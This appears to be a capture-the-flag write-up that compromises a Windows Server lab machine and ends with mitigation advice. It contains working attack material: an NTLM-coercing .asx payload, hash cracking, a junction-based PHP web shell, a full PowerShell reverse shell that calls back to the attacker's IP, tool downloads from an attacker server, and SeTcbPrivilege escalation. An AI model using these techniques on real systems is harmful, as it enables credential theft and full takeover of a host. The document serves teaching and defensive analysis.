



# Media - Complete Write-up
# Pentester-RavenHex
**Date:** 18 July 2026 \
**Machine Rank:** #\
**Difficulty:** Medium\
**OS:** Windows Server 2022\
**Domain:** MEDIA\
**IP Address:** 10.129.234.67\
**Pentester**:**RavenHex**

---



## Executive Summary

Media is a Windows machine that demonstrates several real-world attack vectors commonly found in enterprise environments. Every step below explains *why* the technique works, not just the command that was typed, so the underlying issue is understood well enough to reproduce it — or explain it to a client — without needing to memorise a script. The attack chain progresses through the following phases:

- **File Upload** → **NTLM Hash Capture** — The machine hosts a PHP web application that allows file uploads. By uploading a Windows Media Player compatible file (`.asx`) with an embedded SMB path pointing to our Kali machine, we trigger NTLM authentication when the file is opened. Responder captures the NTLMv2 hash of the user `enox`.

- **Hash Cracking** → **Initial Access** — The captured NTLMv2 hash is cracked using Hashcat to reveal the password `1234virus@`. This provides SSH access as `enox`.

- **Junction Attack** → **Web Shell** — By analyzing the PHP source code, we discover the upload directory and confirm (via `icacls`) that it is fully writable. We create a junction (an NTFS reparse point, not a true symbolic link) from the upload folder to the web root (`C:\xampp\htdocs`). This allows us to upload a PHP web shell (`cmd.php`) and achieve Remote Code Execution (RCE).

- **Reverse Shell** → **Privilege Escalation** — Using the web shell, we execute a PowerShell reverse shell payload, gaining a shell as `NT AUTHORITY\LOCAL SERVICE`. We then use the `TcbElevation` tool to exploit `SeTcbPrivilege` and add `enox` to the local Administrators group. `FullPowers → GodPotato` is documented as an equally viable alternative route.

- **Root Flag** → **Complete Compromise** — With Administrator privileges, we retrieve the root flag.

---

## Machine Information

| Detail | Value |
|:--|:--|
| **Machine Name** | Media |
| **OS** | Windows Server 2022, Build 20348 |
| **Difficulty** | Medium |
| **Domain** | `MEDIA` (standalone — no Active Directory) |
| **Hostname** | `MEDIA` |
| **IP Address** | 10.129.234.67 |

---

## Reconnaissance

### Initial Port Scanning

The first thing any assessment needs is an accurate picture of what is actually listening on the host. A default Nmap scan only checks the ~1000 most common ports, which is not good enough for a real engagement, so the scan below covers the full 65535-port range. `-Pn` is used because ICMP is frequently filtered on Windows hosts (a ping-based "is it alive" check would otherwise mark the host as down), and the packet rate is raised since this is a lab environment where stealth isn't a concern.

```bash
hyena@hyena$ nmap -sS -Pn -min-rate 5000 --max-retries 1 -T4 -p- 10.129.234.67
Starting Nmap 7.99 at 2026-07-18 17:19 +0000
Nmap scan report for 10.129.234.67
Host is up (0.36s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3389/tcp open  ms-wbt-server
Nmap done: 1 IP address (1 host up) scanned in 27.38 seconds
```

Three ports stand out immediately: SSH open on a Windows box is unusual and worth noting (OpenSSH-for-Windows has been installed, which is a whole extra attack surface most Windows boxes don't have), a web server, and RDP.

### Detailed Service Scan

Once the open ports are known, a targeted scan against just those ports can afford to run more expensive checks — version detection, default NSE scripts, and OS fingerprinting — without the cost of scanning all 65535 ports with them.

```bash
hyena@hyena$ nmap -sC -sV -O -p22,80,3389 10.129.234.67
Starting Nmap 7.99 at 2026-07-18 17:23 +0000
Nmap scan report for 10.129.234.67
Host is up (0.39s latency).

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: ProMotion Studio
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=MEDIA
| Not valid before: 2026-07-17T17:23:42
|_Not valid after:  2027-01-16T17:23:42
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-18T17:29:29+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 5m54s, deviation: 0s, median: 5m54s
```

The RDP NTLM-info leak is a small but useful bonus: without any authentication at all, Nmap's `rdp-ntlm-info` script pulls the machine's NetBIOS name, domain name, and build number straight out of the TLS/CredSSP negotiation. This confirms the host is a **standalone** machine (domain name equals the computer name — there is no Active Directory here) running **Windows Server 2022, build 20348**.

### Service Analysis

| Port | Service | Significance |
|------|---------|--------------|
| 22 | SSH (OpenSSH for Windows) | A second, credential-based way onto the box — very useful once we have valid creds |
| 80 | HTTP | Apache + PHP 8.1.17 — the actual attack surface, since PHP upload handlers are frequently abusable |
| 3389 | RDP | Remote Desktop access — a fallback, not part of the exploited path here |

The service information reveals:

- **Hostname**: `MEDIA`
- **OS**: Windows Server 2022 (Build 20348)
- **Web Server**: Apache 2.4.56 with PHP 8.1.17

---

## Web Enumeration

### Website Discovery

Visiting the HTTP service on port 80 reveals "ProMotion Studio," a company site with a careers/application page.


The site has a file upload feature for job applicants to submit introduction videos.

### File Upload Feature


The upload form submits four fields to the backend — First Name, Last Name, Email, and the video file itself. Every one of the first three is attacker-controlled free text, which turns out to matter a great deal later, since the server uses them to derive the storage path for the uploaded file.

A directory/file brute-force was also run against the web root, so hidden endpoints, backup files, or admin panels would be caught early rather than relying purely on manual browsing:

```bash
hyena@hyena$ ffuf -u http://10.129.234.67/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .php,.html,.txt -t 50 -fc 404
```

Testing which extensions the form accepts shows that Windows Media Player playlist/redirector formats — `.asx`, `.wax`, `.wpl` — are allowed. This detail matters a lot, and is explained in the next section.

---

## Initial Access — NTLM Hash Capture

### Understanding the Attack

An `.asx` file is not a video — it's an XML-based *playlist/redirector* that tells Windows Media Player where to go to fetch the actual media, and that "where" can be any URL, including a UNC (`\\host\share\file`) path. When a Windows client opens an `.asx` file that points at a `\\<attacker-IP>\share\video.mp4` style path, the OS treats it exactly like any other attempt to browse a network share: it tries to authenticate to that share over SMB, using the current user's Windows credentials, automatically, with **no prompt** to the user. This authentication attempt is negotiated using NTLM.

That's the whole trick: the vulnerability isn't in the web app's code at all — it's in the fact that Windows will silently attempt NTLM authentication to *any* SMB path a file references, and the web app was kind enough to accept a file format that can embed one. We can capture this NTLM hash with Responder.

### Creating the Malicious .asx File


The malicious file itself is a small, easy-to-read XML document — nothing about it looks obviously malicious to a human reviewer, which is exactly the problem:

```bash
hyena@hyena$ cat > exploit.asx << 'EOF'
<asx version="3.0">
   <title>Leak</title>
   <entry>
      <title></title>
      <ref href="file://10.10.14.15/leak/leak.wma"/>
   </entry>
</asx>
EOF
```

The `<ref href="...">` element is the entire payload: it's simply a UNC-style path pointing back at the attacker's own IP. Nothing needs to be exploited in Windows Media Player itself — this is intended, documented behaviour of the playlist format being repurposed for coercion rather than its stated media-fetching function.

### Starting Responder

Responder's job here isn't to *poison* anything (no LLMNR/NBT-NS spoofing is needed) — it just needs to stand up a fake SMB server and log whatever NTLMv2 handshake shows up when the victim (presumably an HR staff member reviewing "candidate applications") opens the malicious `.asx` file.

```bash
hyena@hyena$ sudo responder -I tun0 -v
```

```
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.15]

[+] Listening for events...
```

Responder's poisoners (LLMNR/NBT-NS/MDNS) don't actually need to fire for this attack — they're just Responder's defaults. The part doing the real work is the **SMB server**, which receives and logs the authentication attempt once the `.asx` file forces the target to reach out.

### Uploading the File

1. Navigate to `http://10.129.234.67`
2. Fill in the form:
   - First Name: `test`
   - Last Name: `test`
   - Email: `test@test.null`
3. Upload `exploit.asx`
4. Click Submit

### Capturing the NTLM Hash

When the file is opened/processed on the target side, Responder captures the hash:

```
[SMB] NTLMv2-SSP Client   : 10.129.234.67
[SMB] NTLMv2-SSP Username : MEDIA\enox
[SMB] NTLMv2-SSP Hash     : enox::MEDIA:b9835ce3f4a91f84:5ACEA4421CE41838EA34D8E2DB664563:0101000000000000002246FA4717DD014D76A7F84A6DFD6000000000020008004E0046004500410001001E00570049004E002D005A0030004F00560054004F005900440037005200330004003400570049004E002D005A0030004F00560054004F00590044003700520033002E004E004600450041002E004C004F00430041004C00030014004E004600450041002E004C004F00430041004C00050014004E004600450041002E004C004F00430041004C0007000800002246FA4717DD0106000400020000000800300030000000000000000000000000300000BCA5BD24727B42AEFFD10063C7DB4A2FA0A834A7225D182F04ED2FA0B17876A30A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310035000000000000000000
```

Note that this is a **captured hash**, not the plaintext password — NTLMv2 is a challenge-response protocol, so what's leaked is a value cryptographically bound to the password, not the password itself. To recover the actual credential, it has to be cracked offline.

### Saving the Hash

```bash
hyena@hyena$ echo 'enox::MEDIA:b9835ce3f4a91f84:5ACEA4421CE41838EA34D8E2DB664563:0101000000000000002246FA4717DD014D76A7F84A6DFD6000000000020008004E0046004500410001001E00570049004E002D005A0030004F00560054004F005900440037005200330004003400570049004E002D005A0030004F00560054004F00590044003700520033002E004E004600450041002E004C004F00430041004C00030014004E004600450041002E004C004F00430041004C00050014004E004600450041002E004C004F00430041004C0007000800002246FA4717DD0106000400020000000800300030000000000000000000000000300000BCA5BD24727B42AEFFD10063C7DB4A2FA0A834A7225D182F04ED2FA0B17876A30A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310035000000000000000000' > hash.txt
```

### Cracking the Hash

Because NTLMv2 uses HMAC-MD5 internally, it's fast to compute compared to something like bcrypt, which makes it realistic to brute-force against a wordlist if the underlying password is weak. Hashcat mode `5600` is the correct mode for NTLMv2-SSP-style hashes.

```bash
hyena@hyena$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt --force
hashcat (v7.1.2) starting

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: enox::MEDIA:b9835ce3f4a91f84:5ACEA4421CE41838EA34D8E2DB664563:...
Recovered........: 1/1 (100.00%) Digests (total)
```

### The Cracked Password

```bash
hyena@hyena$ cat cracked.txt
ENOX::MEDIA:b9835ce3f4a91f84:5acea4421ce41838ea34d8e2db664563:0101000000000000002246fa4717dd014d76a7f84a6dfd6000000000020008004e0046004500410001001e00570049004e002d005a0030004f00560054004f005900440037005200330004003400570049004e002d005a0030004f00560054004f00590044003700520033002e004e004600450041002e004c004f00430041004c00030014004e004600450041002e004c004f00430041004c00050014004e004600450041002e004c004f00430041004c0007000800002246fa4717dd0106000400020000000800300030000000000000000000000000300000bca5bd24727b42aeffd10063c7db4a2fa0a834a7225d182f04ed2fa0b17876a30a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310035000000000000000000:1234virus@
```

The wordlist attack succeeds because `1234virus@`, despite having a special character, is a pattern (`digits + dictionary word + symbol`) that's common enough to be present in — or trivially derivable from — a large breach-derived wordlist like rockyou. This is worth calling out clearly in a client-facing report: password *complexity rules* were technically satisfied (upper/lower/digit/symbol requirements are often just "digit + word + symbol"), but the password was still weak against real-world cracking.

**Password:** `1234virus@`

---

## SSH Access

### Connecting as enox

```bash
hyena@hyena$ ssh enox@10.129.234.67
The authenticity of host '10.129.234.67 (10.129.234.67)' can't be established.
ED25519 key fingerprint is: SHA256:2c17FslY2rzanEFkyjgpzSQoyVlsRgRFVJv+0dkFt8A
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.234.67' (ED25519) to the list of known hosts.
enox@10.129.234.67's password: 1234virus@
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

enox@MEDIA C:\Users\enox>
```



### User Flag

A quick `whoami` confirms exactly which account and domain context the shell is running under before digging further:

```cmd
enox@MEDIA C:\Users\enox>whoami
media\enox

enox@MEDIA C:\Users\enox>cd Desktop

enox@MEDIA C:\Users\enox\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is EAD8-5D48

 Directory of C:\Users\enox\Desktop

10/02/2023  11:04 AM    <DIR>          .
10/02/2023  10:26 AM    <DIR>          ..
07/18/2026  10:25 PM                34 user.txt
               1 File(s)             34 bytes

enox@MEDIA C:\Users\enox\Desktop>type user.txt
134f2bef2b22a891e3e8fd8e6515813a
```

**User Flag:** `134f2bef2b22a891e3e8fd8e6515813a`

---

## Web Shell — Junction Attack

### Analyzing the Source Code

With filesystem access via SSH, the PHP source behind the upload form can simply be read directly rather than guessed at:

```bash
enox@MEDIA C:\Users\enox\Desktop>type C:\xampp\htdocs\index.php
```

```php
$uploadDir = 'C:/Windows/Tasks/Uploads/';
$folderName = md5($firstname . $lastname . $email);
$targetDir = $uploadDir . $folderName . '/';
```

This tells us two important things:

1. Uploaded files land in `C:\Windows\Tasks\Uploads\<md5-hash-of-your-name-and-email>\` — a predictable, attacker-controlled path, since the "hash" is just MD5 of form fields the attacker fully controls.
2. Nothing in this snippet restricts the *file type* that lands there — the app trusted its earlier `.asx`/`.wax`/`.wpl` extension whitelist to be the only control needed, without considering what else could reach that folder.

### Checking Permissions

Before assuming the folder is writable, it's worth confirming it with `icacls` rather than just trying and hoping:

```cmd
enox@MEDIA C:\Users\enox\Desktop>icacls C:\Windows\Tasks\Uploads
C:\Windows\Tasks\Uploads Everyone:(I)(OI)(CI)(F)
                           BUILTIN\Administrators:(I)(F)
                           NT AUTHORITY\SYSTEM:(I)(F)
                           MEDIA\enox:(I)(F)
```

**enox has Full Control over the upload folder!** `Everyone:(F)` and `MEDIA\enox:(F)` both grant Full Control — this single misconfigured ACL is what makes the whole junction attack possible. Without it, `mklink` would fail with an access-denied error and this entire path to RCE would be closed off.

### Calculating the MD5

```bash
hyena@hyena$ echo -n "testtesttest@test.null" | md5sum
317d52e7c825dd847d9c750a35547edc
```

### Creating the Junction

`C:\Windows\Tasks\Uploads\` is writable by `enox`. On NTFS, a *junction* (created with `mklink /J`) is a directory-level reparse point: it makes one folder path transparently resolve to another folder's contents, entirely at the filesystem level, with no special privilege required to create it (unlike a true `SeCreateSymbolicLinkPrivilege`-gated symlink, junctions between local NTFS volumes for directories don't require elevation).

That means the *contents* of the upload folder can be made to actually be the contents of a completely different folder — in this case, the live web root, `C:\xampp\htdocs`. Once that junction exists, anything the web application "saves" into its own upload subfolder is, from the filesystem's point of view, actually being written directly into the folder Apache serves pages from.

If a folder with the target name already exists from an earlier test upload, it's removed first so `mklink` has a clean target to create:

```cmd
enox@MEDIA C:\Windows\Tasks\Uploads>rmdir /S 317d52e7c825dd847d9c750a35547edc

enox@MEDIA C:\Windows\Tasks\Uploads>mklink /J 317d52e7c825dd847d9c750a35547edc C:\xampp\htdocs
Junction created for C:\Windows\Tasks\Uploads\317d52e7c825dd847d9c750a35547edc <<===>> C:\xampp\htdocs
```

Listing the folder confirms the entry is now a `<JUNCTION>` rather than a plain directory — the filesystem-level redirect is live:

```cmd
enox@MEDIA C:\Windows\Tasks\Uploads>dir
 Volume in drive C has no label.
 Volume Serial Number is EAD8-5D48

 Directory of C:\Windows\Tasks\Uploads

08/26/2025 11:45 AM    <DIR>          .
10/02/2023 11:04 AM    <DIR>          ..
08/26/2025 11:45 AM    <JUNCTION>     317d52e7c825dd847d9c750a35547edc [C:\xampp\htdocs]
```

### Uploading Web Shell

With the junction in place, a minimal PHP web shell is crafted:

```bash
hyena@hyena$ echo '<?php system($_GET["cmd"]); ?>' > cmd.php
```

Upload `cmd.php` through the website with the same form values used for the junction (`test` / `test` / `test@test.null`), since the extension whitelist on the upload form is irrelevant once the junction is in place — the app still thinks it's writing to an isolated per-applicant folder, unaware it just dropped an executable PHP file straight into the document root.


### Testing RCE

```bash
hyena@hyena$ curl http://10.129.234.67/cmd.php?cmd=whoami
nt authority\local service
```

Command execution confirmed, running as the built-in **LOCAL SERVICE** account — the identity Apache/PHP is running under, not `enox`.

---

## Reverse Shell

### Starting the Listener

```bash
hyena@hyena$ nc -lvnp 9001
listening on [any] 9001 ...
```

### Executing the Reverse Shell

```bash
hyena@hyena$ curl "http://10.129.234.67/cmd.php?cmd=powershell%20-c%20%22%24c%3DNew-Object%20System.Net.Sockets.TCPClient('10.10.14.15',9001)%3B%24s%3D%24c.GetStream()%3B%5Bbyte%5B%5D%5D%24b%3D0..65535%7C%25%7B0%7D%3Bwhile((%24i%3D%24s.Read(%24b%2C%200%2C%20%24b.Length))%20-ne%200)%7B%24d%3D(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString(%24b%2C0%2C%24i)%3B%24sb%3D(iex%20%24d%202%3E%261%20%7C%20Out-String%20)%3B%24sb2%3D%24sb%2B'PS%20'%2B(pwd).Path%2B'%3E%20'%3B%24sbt%3D(%5Btext.encoding%5D%3A%3AASCII).GetBytes(%24sb2)%3B%24s.Write(%24sbt%2C0%2C%24sbt.Length)%3B%24s.Flush()%7D%3B%24c.Close()%22"
```

### Shell Confirmed

```
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.234.67] 61256
PS C:\xampp\htdocs> whoami
nt authority\local service
```

The `connect to ... from (UNKNOWN)` line is `nc` confirming the callback landed. Same identity as before, but now in a stable, interactive PowerShell session — much easier to work with for privilege escalation than firing off URL-encoded `curl` commands one at a time.

---

## Privilege Escalation

### Checking Privileges

The very first thing worth checking on any freshly obtained Windows shell is `whoami /priv`, since Windows tokens carry a list of special privileges that are frequently more useful than the account's actual group membership.

```powershell
PS C:\xampp\htdocs> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                         State   
============================= =================================== ========
SeTcbPrivilege                Act as part of the operating system Disabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled 
SeCreateGlobalPrivilege       Create global objects               Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set      Disabled
SeTimeZonePrivilege           Change the time zone                Disabled
```

`SeTcbPrivilege` ("Act as part of the operating system") stands out immediately. It is one of the most powerful privileges Windows has: a process holding it is allowed to impersonate essentially any user and call low-level security APIs normally reserved for the OS itself. Service accounts almost never need it, and its presence here — even *disabled* by default — is a misconfiguration, because a disabled privilege can be re-enabled by a process that already holds the token right to do so.

### Using TcbElevation

The `SeTcbPrivilege` exists on the system (even though it's disabled for LOCAL SERVICE). We use the TcbElevation tool to abuse it and add `enox` to the Administrators group. The core idea is that `SeTcbPrivilege` allows creating a token via `LsaLogonUser` with `S4U`/trusted-caller semantics that Windows otherwise reserves for authentication providers — effectively letting the holder mint a token for any account without knowing its password.

**Tool Source:** [GitHub - b4lisong/SeTcbPrivilege-Abuse](https://github.com/b4lisong/SeTcbPrivilege-Abuse)

**Compiled executables:**
- `TcbElevation-x64.exe` — 64-bit version
- `TcbElevation-x86.exe` — 32-bit version

### Downloading and Executing

A small HTTP server is stood up on the attacker box first, purely so the target can pull the pre-compiled tool over the reverse shell rather than needing an interactive file-transfer channel:

```bash
# Start HTTP server on Kali
hyena@hyena$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 ...
```

```powershell
# Download TcbElevation
PS C:\xampp\htdocs> iwr http://10.10.14.15:8081/TcbElevation-x64.exe -outfile TcbElevation.exe

# Add enox to Administrators
PS C:\xampp\htdocs> .\TcbElevation.exe elevate 'net localgroup Administrators enox /add'
Error starting service 1053
```

The `Error starting service 1053` message is a red herring — it comes from a helper service the tool briefly spins up and is not indicative of failure. Checking group membership immediately after confirms the privileged command actually executed:

```powershell
PS C:\xampp\htdocs> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------------------
Administrator
enox
The command completed successfully.
```

**enox is now a member of the Administrators group!** What began as a captured NTLM hash from a booby-trapped video upload has ended in complete control of the host.

### Alternative Method: FullPowers → GodPotato

`TcbElevation` was the path actually used to reach Administrator on this box, but it's worth documenting a second, equally viable route for completeness, since a client's EDR may block one tool but not the other. `FullPowers` restores the full set of privileges a service token is normally entitled to but that get stripped by the Service Control Manager at startup (including `SeImpersonatePrivilege`); once `SeImpersonatePrivilege` is active, a Potato-family tool such as `GodPotato` can coerce a privileged COM/RPC activation to obtain a `SYSTEM` token directly, bypassing the `SeTcbPrivilege` route entirely:

```powershell
# Download FullPowers
iwr http://10.10.14.15:8081/FullPowers.exe -outfile FullPowers.exe

# Download GodPotato
iwr http://10.10.14.15:8081/GodPotato-NET4.exe -outfile GodPotato.exe

# Restore privileges stripped from the service token
.\FullPowers.exe

# Coerce a SYSTEM token
.\GodPotato-NET4.exe -cmd "powershell -e <base64_payload>"
```

Either technique achieves the same outcome: turning a LOCAL SERVICE web-shell foothold into full administrative control, by abusing a privilege/token-handling weakness rather than any missing patch.

---

## Root Flag

### SSH as enox (Now Administrator)

Because `enox` already has a working SSH credential, escalating from that low-priv shell to a full Administrator context is as simple as reconnecting — the group membership change applies to any new logon token.

```bash
hyena@hyena$ ssh enox@10.129.234.67
enox@10.129.234.67's password: 1234virus@
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

enox@MEDIA C:\Users\enox>
```

### Verifying Privileges

```cmd
enox@MEDIA C:\Users\enox>whoami
media\enox

enox@MEDIA C:\Users\enox>net localgroup Administrators
Members
-------------------------------------------------------------------------------
Administrator
enox
```

The token itself confirms the change: a full `whoami /priv` now returns the entire Administrator-level privilege set (including `SeBackupPrivilege`, `SeRestorePrivilege`, `SeDebugPrivilege`, and `SeImpersonatePrivilege`), where the low-priv `enox` session earlier in this write-up only carried a handful of disabled, low-value privileges:

```cmd
enox@MEDIA C:\Users\enox>whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

### Reading the Root Flag

```cmd
enox@MEDIA C:\Users\enox>type C:\Users\Administrator\Desktop\root.txt
3cfd8f3c5994b0ec9bbdc47cb27f0e7f
```

**Root Flag:** `3cfd8f3c5994b0ec9bbdc47cb27f0e7f`

---

## Final Results

| Flag | Status |
|:--|:--|
| **User Flag** | ✅ Captured: `134f2bef2b22a891e3e8fd8e6515813a` |
| **Root Flag** | ✅ Captured: `3cfd8f3c5994b0ec9bbdc47cb27f0e7f` |


### Artifacts & Credentials Summary

| Item | Value |
|---|---|
| Initial foothold user | `enox` |
| Captured NTLMv2 hash (user) | `MEDIA\enox` |
| Cracked password | `1234virus@` |
| Access method | SSH (OpenSSH for Windows) |
| Upload directory (source-disclosed) | `C:\Windows\Tasks\Uploads\<md5(first+last+email)>\` |
| Junction target | `C:\Windows\Tasks\Uploads\317d52e7c825dd847d9c750a35547edc` → `C:\xampp\htdocs` |
| Web shell path | `cmd.php` (dropped into `C:\xampp\htdocs` via the junction) |
| RCE identity | `nt authority\local service` |
| Privilege abused | `SeTcbPrivilege` (present, disabled, on the LOCAL SERVICE token) |
| Escalation tool | `TcbElevation-x64.exe` (SeTcbPrivilege-Abuse) |
| Alternative escalation route | `FullPowers.exe` + `GodPotato-NET4.exe` |
| Final privilege | `enox` added to local `Administrators` group |

---

## Attack Chain Summary

```
Nmap Scan → Port 80 (Apache + PHP)
    ↓
Web Enumeration → File Upload Feature
    ↓
Create .asx file → Points to SMB path
    ↓
Upload .asx → HR opens it → NTLM Hash
    ↓
Responder captures hash → Hashcat cracks → 1234virus@
    ↓
SSH as enox → User flag captured
    ↓
Analyze index.php → Found upload directory
    ↓
icacls confirms upload folder is Full Control → junction is possible
    ↓
Create Junction → Upload folder → htdocs
    ↓
Upload cmd.php → RCE as LOCAL SERVICE
    ↓
Reverse Shell → LOCAL SERVICE shell
    ↓
TcbElevation → SeTcbPrivilege → Add enox to Administrators
    ↓
SSH as enox (admin) → Root flag captured
```

---

## Mitigations & Security Recommendations

1. **Restrict File Upload Types**: Only allow specific, safe file types. Block `.asx`, `.wax`, `.wpl` files that can trigger SMB authentication.

2. **Disable NTLM Authentication**: Use Kerberos exclusively to prevent NTLM hash capture attacks.

3. **Secure Upload Directories**: Store uploaded files outside the web root and restrict permissions. Use `realpath()` validation to prevent directory traversal.

4. **Disable Symbolic Link/Junction Creation**: Restrict who can create reparse points (junctions or `SeCreateSymbolicLinkPrivilege`-based symlinks) in security-sensitive directories like `C:\Windows\Tasks`.

5. **Remove SeTcbPrivilege**: Service accounts should not have `SeTcbPrivilege`. This privilege can be abused to add users to the Administrators group.

6. **Implement Proper File Validation**: Validate file content (MIME type) and reject files that don't match expected formats.

7. **Use Strong Passwords**: `1234virus@` was cracked using a wordlist. Enforce strong, breach-checked password policies.

8. **Monitor for Junction Creation**: Alert on creation of junctions in writable directories like `C:\Windows\Tasks\Uploads`.

